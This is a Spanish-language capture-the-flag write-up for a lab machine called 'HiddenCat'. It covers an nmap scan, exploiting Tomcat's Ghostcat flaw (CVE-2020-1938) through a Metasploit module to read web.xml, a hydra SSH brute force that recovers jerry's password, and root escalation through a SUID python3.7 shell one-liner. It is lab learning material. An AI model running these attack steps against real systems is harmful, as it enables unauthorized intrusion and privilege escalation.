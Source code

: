 # **Máquina: HiddenCat**

### **Dificultad:** Fácil

### 📝 **Descripción:**


### 🎯 **Objetivo:**



![Logo](Imágenes/2025-05-17_13-08.png)

---

## 🖥️ **Despliegue de la máquina**

Primero descargamos la máquina vulnerable `hiddencat.zip`, la descomprimimos con `unzip` y luego la desplegamos utilizando el script proporcionado:

```bash
unzip hiddencat.zip
sudo bash auto_deploy.sh hiddencat.tar
```

Esto levanta la máquina en un entorno Docker.
![Despliegue](Imágenes/Capturas.png)

---

## 📡 **Comprobación de conectividad**

Hacemos un ping a la IP asignada (`172.17.0.3`) para confirmar que la máquina está activa:

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔍 **Escaneo de puertos**

Ejecutamos un escaneo con `nmap` para detectar todos los puertos abiertos de la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Se detectan los siguientes puertos abiertos:

* **22 (SSH)**
* **8009 (SSH)**
* **8080 (HTTP)**
  ![Puertos](Imágenes/Capturas_2.png)

Posteriormente, con un script personalizado `extractPorts`, extraemos los puertos encontrados y los usamos para un escaneo más profundo:

```bash
nmap -sCV -p22,8080 172.17.0.3 -oN target.txt
```

![Servicios](Imágenes/Capturas_3.png)

---
Entramos a la pagina alojada http://172.17.0.3:8080/ donde se puede la version que se esta usando Apache Tomcat/9.0.30 use searchsploit Tomcat para buscar alguna vulnerabilidad pero no encontre ninguna interesante asi que busque en internet y eocntre: https://www.exploit-db.com/exploits/49039 una vulnerabilidad Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)
![pagina](Imágenes/Capturas_4.png)

---

![version](Imágenes/Capturas_5.png)

Para usar este script cree mkdir -p ~/.msf4/modules/auxiliary/scanner/http/ y nano ~/.msf4/modules/auxiliary/scanner/http/ghostcat.rb y en ghostcat.rb pegue todo el scrip lo guarde y lo cerre 
Abri: msfconsole
y recargue los modulos: reload_all
despues use el modulo que cree: use auxiliary/scanner/http/ghostcat
![version](Imágenes/Capturas_6.png)
y se realizan las configuraciones:
set RHOSTS 172.17.0.3
set RPORT 8009
set FILEPATH WEB-INF/web.xml
run
![inicio](Imágenes/Capturas_7.png)
Al comenzar con el ataque se logra explotar Ghostcat (CVE-2020-1938) con éxito y descargar el archivo WEB-INF/web.xml del servidor donde se puede ver que existe un usuario Jerry.
![usuario](Imágenes/Capturas_8.png)
Notas: el parámetro FILEPATH sirve para especificar qué archivo quieres leer desde el servidor vulnerable, aprovechando el conector AJP de Apache Tomcat que lo espesificamos con set RPORT 8009 ya que gracias a nmap encontramos que lo esta usando.

Con el usuario descubirto use hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3 -t 4 para encontrar un contraseña para entrar al servicio de SSH y encontre las credenciales: 
[22][ssh] host: 172.17.0.3   login: jerry   password: chocolate
Con esta informacion entre al servicio SSH con exito
![ssh](Imágenes/Capturas_9.png)

Se identificó python3.7 con SUID usando find / -perm -4000 2>/dev/null, lo que permite ejecutar código como root. Con /usr/bin/./python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")' se abrió una shell privilegiada. Finalmente, whoami confirmó el acceso como root. Así se logró la escalada local desde jerry a root.
![ssh](Imágenes/Capturas_10.png)

